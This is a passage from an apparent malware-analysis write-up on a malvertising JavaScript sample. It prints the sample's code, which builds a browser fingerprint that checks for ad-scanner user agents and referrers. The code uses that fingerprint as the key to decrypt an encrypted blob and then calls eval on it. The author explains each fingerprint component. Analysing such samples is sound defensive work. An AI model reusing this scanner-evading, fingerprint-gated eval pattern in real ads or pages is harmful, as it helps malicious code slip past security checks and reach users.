 We can run [the linked file](files/malvertising3.js) through the beautifier once again to get something [nicer](files/malvertising3-b.js). In this file, we have a set of functions in the `T` object, some polyfills for `String`, and then:

```js
function dJw() {
  try {
    return navigator.platform.toUpperCase().substr(0, 5)
    + Number(/android/i.test(navigator.userAgent))
    + Number(/AdsBot/i.test(navigator.userAgent))
    + Number(/Google/i.test(navigator.userAgent))
    + Number(/geoedge/i.test(navigator.userAgent))
    + Number(/tmt/i.test(navigator.userAgent))
    + navigator.language.toUpperCase().substr(0, 2)
    + Number(/tpc.googlesyndication.com/i.test(document.referrer) || /doubleclick.net/i.test(document.referrer))
    + Number(/geoedge/i.test(document.referrer))
    + Number(/tmt/i.test(document.referrer))
    + performance.navigation.type
    + performance.navigation.redirectCount
    + Number(navigator.cookieEnabled)
    + Number(navigator.onLine)
    + navigator.appCodeName.toUpperCase().substr(0, 7)
    + Number(navigator.maxTouchPoints > 0)
    + Number((undefined == window.chrome) ? true : (undefined == window.chrome.app))
    + navigator.plugins.length
  } catch (e) {
    return 'err'
  }
};
a = 
  "A2xcVTrDuF+EqdD8VibVZIWY2k334hwWPsIzgPgmHSapj+zeDlPqH/RHlpVCitdlxQQfzOjO01xCW/6TNqkciPRbOZsizdYNf5eEOgghG0YhmIplCBLhGdxmnvsIT/69I08I/ZvIxkWyufhLayTDzFeGZlPQfjqtY8Wr59Lkw/JggztpJYPWng=="
eval(T.d0(a, dJw()));
```

The Base64 string `a` seems encrypted (binary garbage when decoded). Based on this we can easily guess that `T.d0` is a decryption function using the result of the `dJw()` call as a key.

The key is a sort of browser fingerprint, constructed out of a number of checks. All `Number(...)` calls in the function take a boolean value and change it to `0` or `1`.

 - `LINUX` / `WIN32` / `MACIN` / ... - [`navigator.platform.toUpperCase().substr(0, 5)`](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorID/platform) - the first five letters of the uppercased navigator platform
 - `0` / `1` - is `android` part of the [user agent](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorID/userAgent) string?
 - `0` / `1` - is `AdsBot` part of the user agent string?
 - `0` / `1` - is `Google` part of the user agent string?
 - `0` / `1` - is `geoedge` part of the user agent string?
 - `0` / `1` - is `tmt` part of the user agent string?
 - `EN` / `FR` / `SK` / ... - [`navigator.language.toUpperCase().substr(0, 2)`](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorLanguage/language) - the first two letters of the uppercased navigator language
 - `0` / `1` - did the user [come from a URL](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) containing either `tpc.googlesyndication.com` or `doubleclick.net`?
 - `0` / `1` - did the user come from a URL containing `geoedge`?
 - `0` / `1` - did the user come from a URL containing `tmt`?
 - `0` / `1` / `2` / `255` - [how did the user navigate](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceNavigation/type) to the page?
 - `0` / `1` / ... - [how many redirections](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceNavigation/redirectCount) did the user go through before getting to the page?
 - `0` / `1` - are [cookies enabled](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/cookieEnabled)?
 - `0` / `1` - does the browser [think it is online](https://developer.mozilla.org/en-US/docs/Web/API/NavigatorOnLine/onLine)?